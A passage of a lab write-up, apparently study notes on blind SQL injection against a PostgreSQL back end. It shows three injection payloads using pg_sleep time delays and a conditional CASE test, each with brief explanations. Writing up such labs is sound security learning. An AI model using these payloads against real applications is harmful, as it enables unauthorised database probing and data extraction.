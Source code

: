 
**Query Injected:**


```sql
'||pg_sleep(5)--
```

- Testing for time delay on a PostgresSQL server

<br/>

![402e487e_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/49f2b012-4344-4557-a3b4-d8064d2c7848)

- Indicates that it is a **Postgres **database hence why the time delay worked

<br/>

<br/>

<br/>

### Lab: Blind SQL injection with time delays and information retrieval

<br/>

<br/>

![dee64ae3_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/a2d1ea49-3825-45bc-8336-4b735d3430f6)

**Query Injected:**


```sql
; SELECT pg_sleep(10)--
```

- To determine the type of database according to the time delay

- Has 10 second delay indicating that it is a **Postgresco **database

<br/>

<br/>

![a3b1e738_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/532f34e3-e21b-47d2-9d6a-ec63c61c4b27)

![6afd2f34_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/6ce9bc81-679b-46de-a9af-5b8a9a79ac87)

**Query:**


```sql
';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

-  Query is used to test for conditions

- Condition whereby** “1=1”** causes time delay for the response to be received

<br/>

